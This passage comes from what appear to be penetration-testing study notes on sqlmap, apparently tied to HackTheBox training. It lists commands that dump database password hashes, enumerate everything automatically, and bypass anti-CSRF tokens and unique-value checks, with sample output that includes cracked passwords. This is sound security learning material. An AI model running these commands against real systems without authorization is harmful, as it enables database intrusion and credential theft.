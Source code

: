     ```
    [INFO] cracked password 'password123' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
    ```

***

### <mark style="color:blue;">**5. Enumerating Database-Specific Credentials**</mark>

```bash
sqlmap -u "http://www.example.com/?id=1" --passwords
```

**Example Output:**

```
database management system users password hashes:
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass
```

***

### <mark style="color:blue;">**6. Fully Automating Enumeration**</mark>

```bash
sqlmap -u "http://www.example.com/?id=1" --all --batch
```

***

## <mark style="color:red;">Bypassing Web Application Protections</mark>

***

### <mark style="color:blue;">Anti-CSRF Token Bypass</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
{% endcode %}

***

### <mark style="color:blue;">Unique Value Bypass</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```
{% endcode %}
